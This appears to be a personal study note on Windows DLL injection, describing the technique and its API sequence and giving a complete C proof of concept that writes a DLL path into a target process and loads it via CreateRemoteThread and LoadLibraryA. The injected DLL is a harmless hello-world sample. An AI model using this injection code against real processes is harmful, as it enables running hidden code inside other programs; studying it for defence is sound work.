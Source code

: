 ```yaml
---
description: 06-21-2023
---
```


# 📚 DLL Injection

## What is DLL Injection?

It is a process injection technique that <mark style="color:yellow;">allows a malicious actor to be able to inject arbitrary code into another process</mark>.&#x20;

The malware <mark style="color:yellow;">writes the path to it's malicious DLL in the virtual address space of a legit process</mark> using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). This function will write data to an area of memory in a specified process.

It will then ensure the remote process loads it by creating a remote thread in the target process. This is performed via [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## High Level Explanation

Program.exe -> OpenProcess() -> GetProcAddress() -> VirtualAllocEx() -> WriteProcessMemory() -> CreateRemoteThread()

1. Open/Create a process for injection
2. Allocate memory for the process
3. Write DLL's path to the region of allocated memory
4. Call <mark style="color:yellow;">LoadLibraryA</mark>/<mark style="color:yellow;">W</mark>/<mark style="color:yellow;">CreateRemoteThread()</mark> inside the remote process with the DLL path.

## PoC

inject-dll.c:

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    HANDLE threadHandle;
    PVOID remoteBuffer;
    LPCSTR dllPath = "C:\\testcode\\hello-world-x64.dll";
    SIZE_T dllPathLength = strlen(dllPath) + 1;
    PTHREAD_START_ROUTINE threatStartRoutineAddress;

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(!processHandle)
    {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return 0;
    }

    remoteBuffer = VirtualAllocEx(processHandle, NULL, dllPathLength, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if(!remoteBuffer)
    {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return 0;
    }

    if(!WriteProcessMemory(processHandle, remoteBuffer, dllPath, dllPathLength, NULL))
    {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return 0;
    }

    threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    threadHandle = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    if(!threadHandle)
    {
        printf("Remote thread failed. %d\n", GetLastError());
        return 0;
    }

    printf("Success\n");

    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}
```

#### DLL:

{% embed url="https://github.com/carterjones/hello-world-dll/releases/tag/v1.0.0" %}

To Do:&#x20;

* I need to learn how to write my own DLL's







